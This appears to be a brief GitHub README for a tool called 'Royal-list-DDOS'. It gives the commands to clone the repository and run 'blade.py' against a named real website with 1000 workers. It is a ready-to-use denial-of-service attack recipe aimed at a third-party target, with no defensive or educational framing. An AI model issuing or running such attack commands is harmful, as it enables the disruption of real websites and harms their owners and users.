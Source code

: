 # Royal-list-DDOS
git clone https://github.com/Xsarjame/Royal-list-DDOS

cd Royal-list-DDOS

python3 blade.py https://www.navinbcc.com -w 1000 -d


![image](https://user-images.githubusercontent.com/96361084/154924325-a5c0cca7-aff2-4dfe-b435-564ba1292e55.png)

